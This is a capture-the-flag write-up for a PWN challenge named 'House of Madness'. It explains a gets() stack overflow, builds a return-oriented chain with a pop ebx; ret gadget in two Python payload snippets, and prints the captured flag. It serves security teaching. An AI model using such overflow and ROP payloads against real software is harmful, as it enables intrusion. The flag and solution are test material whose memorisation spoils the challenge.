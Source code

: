 # House of Madness

* **Category:** PWN
* **Points:** 897

## Challenge

> Welcome to the House of Madness. Can you pwn your way to the keys to get the relic?
> Note: ASLR is disabled for this challenge
> [Download](./challenge)

## Solution

To preface, this solve was after the challenge environment was fixed with ASLR being disabled. A solve while ASLR was enabled was possible.

While messing around with the binary at first we are met with a direction to enter `Stephen` in room 4.

![](./img/programRun.png)

Upon further analysis with Ghidra, we see that in room 4, we unlock access to a hidden room by entering `Stephen` that includes an unsanitized gets that would allow an overflow of `local_1c`

![](./img/room4.png)

Ok, cool! Overwrite buffer, overwrite eip, call get_flag(), capture the...

![](./img/tryAgain.png)

\>:(

Alright step it back. Taking a look at get_flag() we see checks for 4 keys that are initialized by 4 other functions: `get_key1`, `get_key2`,`AAsDrwEk`,`set_key4`
While reversing the functions, it is important to note that `get_key2` will not initialize `key 2` if `key 1` is already initialized. In addition we see that `get_key1` takes an argument and compares it to 0xfeedc0de.
The obscure function `AAsDrwEk` sets `key 3` without any preconditions. Finally, `set_key4` initializes `key4` once the previous keys have been set. 
Ok, cool. Game plan is:

![](./img/gameplan.png)

```python
get_flag = 0x5655686b
get_key1 = 0x565566de
get_key2 = 0x5655676e
get_key3 = 0x565567cd
get_key4 = 0x565567e9
arg = p32(0xfeedc0de)

padding = "A"*28 #Overflow buffer and overwrite saved eip
payload = padding + p32(get_key3) + p32(get_key2) + p32(get_key1) + p32(get_key4) + arg + p32(get_flag)   
```
Yay now I can finally get some sle-

![](./img/take1.png)

\>:(
Some quick debugging shows that when get_key4 returns, esp is pointing to get_key1's argument and points eip to 0xfeedc0de.

![](./img/feedcode.png)

![](./img/gdb.png)

To understand what needs to be accomplished, it is pivotal to understand what the ret instruction does. ret will take the value at esp's address and pop it into eip and then increment esp.
Therefore, in order to have `get_key1` to ret into `get_flag` which is at `esp + 0x4` on the stack, I need to somehow increment esp. Something to simply move `get_flag` to the top of the stack...
Oh yeah! A ROP gadget to pop off `0xfeedcode` off the stack and then ret into `get_flag`!
Using ```ROPgadget --binary ./houseof | grep pop```, we find a single `pop ebx; ret` instruction which does exactly that!
Now just add that to the exploit and claim the flag to satisfy your lack of sleep.
```python
get_flag = 0x5655686b
get_key1 = 0x565566de
get_key2 = 0x5655676e
get_key3 = 0x565567cd
get_key4 = 0x565567e9
arg = p32(0xfeedc0de)
pop_ret = p32(0x5655601e)

payload= "B"*28 + p32(get_key3) + p32(get_key2) + p32(get_key1) + pop_ret + arg + p32(get_key4) + p32(get_flag)
```
![](./img/ineedsleep.png)

```
auctf{gu3ss_th3_h0us3_1sn't_th4t_m4d}
```
